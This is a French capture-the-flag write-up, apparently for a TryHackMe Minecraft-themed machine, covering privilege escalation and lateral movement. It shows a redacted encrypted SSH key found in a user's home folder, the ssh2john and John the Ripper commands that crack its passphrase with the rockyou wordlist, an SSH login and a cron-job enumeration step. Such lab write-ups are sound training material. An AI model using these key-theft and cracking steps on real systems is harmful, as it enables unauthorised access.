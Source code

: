# Privesc to xxultimatecreeperxx !
Sur le serveur on trouve 2 users, **xxultimatecreeperxx** et **cybercrafted**

On retrouve une clé SSH dans le dossier /home/xxultimatecreeperxx/.ssh
```id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,3579498908433674083EAAD00F2D89F6

Sc3FPbCv/4DIpQUOalsczNkVCR+hBdoiAEM8mtbF2RxgoiV7XF2PgEehwJUhhyDG
+Bb/uSiC1AsL+UO8WgDsbSsBwKLWijmYCmsp1fWp3xaGX2qVVbmI45ch8ef3QQ1U
XXXXXXXXXXXXXXX
RKTM49I7MsdD/uTK9CyHQGE9q2PekljkjdzCrwcW6xLhYILruayX1B4IWqr/p55k
v6+jjQHOy6a0Qm23OwrhKhO8kn1OdQMWqftf2D3hEuBKR/FXLIughjmyR1j9JFtJ
-----END RSA PRIVATE KEY-----
```
On va la crack avec John
## Cracking the fking key !
On va d'abord la rendre lisible par John:
```
ssh2john id_rsa > hash.txt
```
Puis la crack
```
john --wordlist=/home/kali/Wordlist/rockyou.txt hash.txt
```
Et voici le résultat :
```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cXXXXXXXXXXXXXXX6      (id_rsa)     
1g 0:00:00:00 DONE (2023-12-04 10:05) 2.173g/s 4121Kp/s 4121Kc/s 4121KC/s creepygoblin..creek93
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Nous avons donc le mot de passe de la clé ssh: **cXXXXXXXXXXXXXXX6**
```
root@kali: ssh -i id_rsa xxultimatecreeperxx@10.10.218.242
Enter passphrase for key 'id_rsa': 
xxultimatecreeperxx@cybercrafted:~$ 
```
# Lateral Mouvement:
En regardant dans les tâches cron on vois qu'un script s'execute :
```
* *     1 * *   cybercrafted tar -zcf /opt/minecraft/WorldBackup/world.tgz /opt/minecraft/cybercrafted/world/*
```
Dans le dossier **/opt/minecraft** on retrouve une note :
```
Just implemented a new plugin within the server so now non-premium Minecraft accounts can game too! :)
- cybercrafted

P.S
Will remove the whitelist soon.
```
Le flag:
```
THM{bXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXe}
```